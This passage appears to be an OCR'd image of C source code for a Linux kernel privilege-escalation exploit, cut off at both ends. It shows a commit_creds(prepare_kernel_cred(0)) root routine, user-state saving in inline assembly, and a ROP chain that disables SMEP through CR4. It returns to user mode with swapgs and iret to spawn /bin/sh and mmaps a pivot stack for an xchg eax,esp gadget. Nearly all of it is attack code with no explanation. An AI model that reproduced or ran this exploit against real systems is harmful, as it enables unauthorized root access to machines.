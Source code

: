 ```c
    char* (*pkc)(int)=PREPARE_KERNEL_CRED;
    void (*cc)(char*)=COMMIT_CREDS;
    (*cc)((*pkc)(0));
    return;
}

void getshell(){
    system("/bin/sh");
    return;
}

size_t user_cs,user_ss,user_rsp,user_flag;
void save_state()
{
    __asm__(
            "mov user_cs,cs;"
            "mov user_ss,ss;"
            "mov user_rsp,rsp;"
            "pushf;"
            "pop user_flag;"
            );
    puts("[*] save the state success!");
}

void construct_rop(uint64_t* stack)
{
	*stack++ = POP_RDI_RET;
	*stack++ = 0x6f0;
	*stack++ = MOV_CR4_RDI_RET;
	*stack++ = 0;
	*stack++ = get_root;
	*stack++ = swapgs_addr;
	*stack++ = 0;
	*stack++ = iret_addr;
	*stack++ = getshell;		// getshell  check_root
	*stack++ = user_cs;
	*stack++ = user_flag;
	*stack++ = user_rsp;
	*stack++ = user_ss;
}

// mmap_stack() —— 在用户空间 eax 处布置好 rop
void mmap_stack() {
	uint64_t stack_aligned, stack_addr;
	int page_size, stack_size, stack_offset;
	uint64_t* stack;

	page_size = getpagesize();

	stack_aligned = (XCHG_EAX_ESP_RET & 0x00000000fffffffful) & ~(page_size - 1);
	stack_addr = stack_aligned - page_size * 4;
	stack_size = page_size * 8;
	stack_offset = XCHG_EAX_ESP_RET % page_size;

	stack = mmap((void*)stack_addr, stack_size, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	if (stack == MAP_FAILED || stack != (void*)stack_addr) {
		perror("[-] mmap()");
		exit(EXIT_FAILURE);
	}

	stack = (uint64_t*)((char*)stack_aligned + stack_offset);

```